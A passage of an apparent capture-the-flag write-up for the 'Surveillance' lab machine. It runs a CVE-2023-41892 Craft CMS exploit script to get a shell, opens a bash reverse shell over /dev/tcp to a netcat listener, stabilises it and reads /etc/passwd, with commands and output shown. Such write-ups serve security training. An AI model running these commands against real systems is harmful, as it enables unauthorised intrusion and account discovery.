 After making sure the code is not malicious to us we execute it and successfully get shell.

```shell
labadmin@labmachine:~/surveillance$ python3 CVE-2023-41892-POC.py 'http://surveillance.htb'
[-] Get temporary folder and document root ...
[-] Write payload to temporary file ...
[-] Crash the php process and write temp file successfully
[-] Trigger imagick to write shell ...
[-] Done, enjoy the shell
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$
```

As the next step we setup a reverse shell, starting with local Netcat listener.

```shell
labadmin@labmachine:~$ nc -lvnp 6000
Listening on 0.0.0.0 6000
```

And connect to the local listener from target machine.

```shell
$ which bash
/usr/bin/bash
$ /usr/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.4/6000 0>&1'
```

And we get connection to our local Netcat listener.

```shell
labadmin@labmachine:~$ nc -lvnp 6000
Listening on 0.0.0.0 6000
Connection received on 10.10.11.245 37058
bash: cannot set terminal process group (1086): Inappropriate ioctl for device
bash: no job control in this shell
www-data@surveillance:~/html/craft/web/cpresources$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@surveillance:~/html/craft/web/cpresources$
```

To stabilize the shell we use script to create a new PTY.

```
www-data@surveillance:~/html/craft/cpresources$ script /dev/null -c bash
```

Having a look in `/etc/passwd` we find 2 users.

```shell
www-data@surveillance:/$ cat /etc/passwd
cat /etc/passwd
[OMITTED]
matthew:x:1000:1000:,,,:/home/matthew:/bin/bash
mysql:x:114:122:MySQL Server,,,:/nonexistent:/bin/false
zoneminder:x:1001:1001:,,,:/home/zoneminder:/bin/bash
[OMITTED]
www-data@surveillance:/$
```
